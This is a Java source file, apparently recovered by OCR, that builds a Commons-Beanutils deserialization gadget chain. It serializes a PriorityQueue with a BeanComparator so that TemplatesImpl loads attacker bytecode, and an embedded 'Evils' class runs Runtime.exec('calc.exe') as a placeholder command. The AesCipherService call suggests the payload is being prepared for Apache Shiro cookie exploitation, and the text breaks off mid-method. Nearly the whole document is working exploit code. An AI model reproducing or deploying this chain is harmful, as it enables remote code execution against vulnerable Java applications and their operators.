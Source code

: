 ```



public class CommonsBeanutilsObjectToStringComparator<pubilc> {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public byte[] getPayload(byte[] clazzBytes) throws Exception {
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazzBytes});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        ObjectToStringComparator stringComparator = new ObjectToStringComparator();


        final BeanComparator comparator = new BeanComparator(null, stringComparator);
        final PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        // stub data for replacement later
        queue.add(stringComparator);
        queue.add(stringComparator);



        setFieldValue(comparator, "property", "outputProperties");
        setFieldValue(queue, "queue", new Object[]{obj, obj});

        // ==================
        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();

        return barr.toByteArray();
    }

    public static class Evils extends AbstractTranslet {
        @Override
        public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

        public Evils() throws Exception {
            System.out.println("Hello TemplatesImpl");
            Runtime.getRuntime().exec("calc.exe");
        }
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(Evils.class.getName());
        byte[] payloads = new CommonsBeanutilsObjectToStringComparator().getPayload(clazz.toBytecode());


        AesCipherService aes = new AesCipherService();
```